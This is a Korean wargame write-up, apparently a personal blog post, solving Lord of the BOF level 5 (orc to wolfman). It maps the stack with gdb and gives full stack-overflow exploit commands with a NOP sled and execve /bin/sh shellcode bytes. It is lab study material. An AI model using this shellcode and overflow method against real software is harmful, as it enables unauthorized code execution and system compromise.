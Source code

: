 ```yaml
---
title:  "[LOB] level 5: orc >> wolfman "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 08:46:36

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 5

**orc / cantata**

wolfman.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147016263-c0deb5b7-aa7e-4e4b-96da-7b86f2f4abec.png)

하면할수록 조건이 추가되는데 소름이 돋을 지경이다

buffer를 memset으로 초기화도 시킨다  
나머지 조건은 그대로

스택의 구조를 보면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc  
argv[1]

높은주소

일듯하다

그래도 gdb는 빠질수 없지  
![image](https://user-images.githubusercontent.com/69203345/147054712-6529e861-c065-4e0f-b6f0-c44ffb48bce5.png)  
밑에 더있는데 다 nop이니까 안올림

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  buffer의 위치

0x8048506 <main+6>: cmp DWORD PTR [%ebp+8],1  
이부분이 argc의 비교문 일것이다 따라서 argc의 위치는 [ebp+8]일것

0x80485ce <main+189>: call 0x8048440  <strcpy>  위에 strcpy의 인자로 push되는 인자들을 보면 <main+176>에 [%ebp+12]의 위치에 있는 인자가 push되는데  argv[1]이라고 생각이 든다

스택을 좀더 정확히 해보자면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc    [ebp+8]     #값은 1  
argv[] [ebp+12]

높은주소

작성할 페이로드 A*44 +ret[4] + 쉘코드

>./wolfman \`python -c 'print "A"*44+"\xff\xff\xff\xbf"+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147061721-1db78919-49a2-47ac-8e6d-f8937187e50d.png)

gdb로 core확인

![image](https://user-images.githubusercontent.com/69203345/147061973-639702c5-4b5d-4163-8238-491b3697a437.png)

0xbffffc50으로 리턴주소를 사용하겠다

>./wolfman \`python -c 'print "A"\*44+"\x50\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

Illegal instruction이 뜬다면 \x90의 갯수를 바꿔보자

![image](https://user-images.githubusercontent.com/69203345/147063440-f6cb7f43-5544-416e-9282-30037332c3c2.png)